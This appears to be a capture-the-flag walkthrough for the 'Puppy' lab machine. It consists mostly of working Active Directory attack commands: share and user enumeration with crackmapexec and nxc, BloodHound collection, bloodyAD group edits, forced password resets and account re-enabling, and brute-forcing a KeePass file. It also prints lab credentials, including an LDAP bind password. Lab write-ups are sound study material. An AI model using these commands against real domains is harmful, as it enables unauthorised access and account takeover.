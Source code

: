 


# Reconnaissance phase 

			Open 10.10.11.70:53
			Open 10.10.11.70:88
			Open 10.10.11.70:135
			Open 10.10.11.70:139
			Open 10.10.11.70:389
			Open 10.10.11.70:445
			Open 10.10.11.70:464
			Open 10.10.11.70:593
			Open 10.10.11.70:636
			Open 10.10.11.70:2049
			Open 10.10.11.70:111
			Open 10.10.11.70:3269
			Open 10.10.11.70:3268
			Open 10.10.11.70:3260
			Open 10.10.11.70:5985
			Open 10.10.11.70:9389
			Open 10.10.11.70:49664
			Open 10.10.11.70:49667
			Open 10.10.11.70:49670
			Open 10.10.11.70:49669
			Open 10.10.11.70:49685
			Open 10.10.11.70:60683
			Open 10.10.11.70:60711
# Going deeper 
smb using a valid set of credentials

1.crackmapexec smb 10.129.72.114 -u 'levi.james' -p 'KingofAkron2025!' --shares //list available shares with their perms for current user
	
	
# Informations

by enumerating shares , we've came accross interesting stuffs


		[+] Enumerated shares
		SMB         puppy.htb       445    DC               Share           Permissions     Remark
		SMB         puppy.htb       445    DC               -----           -----------     ------
		SMB         puppy.htb       445    DC               ADMIN$                          Remote Admin
		SMB         puppy.htb       445    DC               C$                              Default share
		SMB         puppy.htb       445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
		SMB         puppy.htb       445    DC               IPC$            READ            Remote IPC
		SMB         puppy.htb       445    DC               NETLOGON        READ            Logon server share 
		SMB         puppy.htb       445    DC               SYSVOL          READ            Logon server share 

2.crackmapexec smb 10.129.72.114 -u 'levi.james' -p 'KingofAkron2025!' --users //enum for valid users list using the gained creds

# Note
Once you've found set of possible users , now use nxc to extract users in a file instead of manually copy paste one of them 

	nxc smb puppy.htb -u 'levi.james' -p 'KingofAkron2025!' --rid-brute | grep "SidTypeUser" | awk -F '\\' '{print $2}' | awk '{print $1}' > users.txt


3.crackmapexec smb 10.129.72.114 -u 'levi.james' -p 'KingofAkron2025!' --rid-brute // list users on the system with their group appartenance and policy

# Next - step

So use now the creds you have to bloodhound server in order to get ldap map

	bloodhound-python -dc dc.puppy.htb -u 'levi.james' -p 'KingofAkron2025!' -d puppy.htb -c All -o bloodhound_results.json -ns 10.129.72.114


# Note : Now you've got all dump from bloodhound  , read relation between your targetted user and all group in the AD environnement : Remember when we were in smb shares , we saw DEV but can't actually read it , so here is the tip ; we lookup at the PUPPY-DEVS from bloodhound and notice that We able to do operations on the DEV SHARE   

		bloodyAD --host 10.129.158.58 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james


Once done , back to smb share and loggin  so grab recovery.kbdx file 


# Then now , how can we breakdown the pass and read keepass file , let's use the awesome script named keepass4brute : here is the link https://github.com/r3nt0n/keepass4brute


		Usage ./keepass4brute.sh <kdbx-file> <wordlist>

# Got it : here is the creds we need : "ant.edwards : Antman2025!"

If you wanna grab more detail about his actions , use bloodyAD
	
	bloodyAD --host 10.129.158.58 -d puppy.htb -u ant.edwards -p 'Antman2025!' get writable --detail

		here is example of what we've got from it 
					unixUserPassword: WRITE
					badPasswordTime: WRITE
					userPassword: WRITE
As you may see , the user is able to write user's pass , so let's make the tricks append
	here is the article reference for doing that so 

				https://www.hackingarticles.in/forcechangepassword-active-directory-abuse/ 
# Note : For our purpose , i'm going to take it easy by directly using bloodyAD
	
		bloodyAD --host "10.129.158.58" -d puppy.htb -u "ant.edwards" -p 'Antman2025!' set password "adam.silver" "Password@987"

# Note : sometimes like here , you may face to the problem describe as : You got pass changed but you can use it cause account being diable at the time you've change it ; so here is how to bypass it 
	
		# Disable ACCOUNTDISABLE
	bloodyAD -u ant.edwards -d puppy.htb -p 'Antman2025!' --host 10.129.158.58 remove uac adam.silver -f ACCOUNTDISABLE

Now logon as adam.silver and grab the flag the flag 

# now , let's do the same trick , back to bloodyAD and see what adam.silver user is able to perform




				****cat puppy/nms-auth-config.xml.bak
						<?xml version="1.0" encoding="UTF-8"?>
						<ldap-config>
						    <server>
						        <host>DC.PUPPY.HTB</host>
						        <port>389</port>
						        <base-dn>dc=PUPPY,dc=HTB</base-dn>
						        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
						        <bind-password>ChefSteph2025!</bind-password>
						    </server>
						    <user-attributes>
						        <attribute name="username" ldap-attribute="uid" />
						        <attribute name="firstName" ldap-attribute="givenName" />
						        <attribute name="lastName" ldap-attribute="sn" />
						        <attribute name="email" ldap-attribute="mail" />
						    </user-attributes>
						    <group-attributes>
						        <attribute name="groupName" ldap-attribute="cn" />
						        <attribute name="groupMember" ldap-attribute="member" />
						    </group-attributes>
						    <search-filter>
						        <filter>(&(objectClass=person)(uid=%s))</filter>
						    </search-filter>
						</ldap-config>

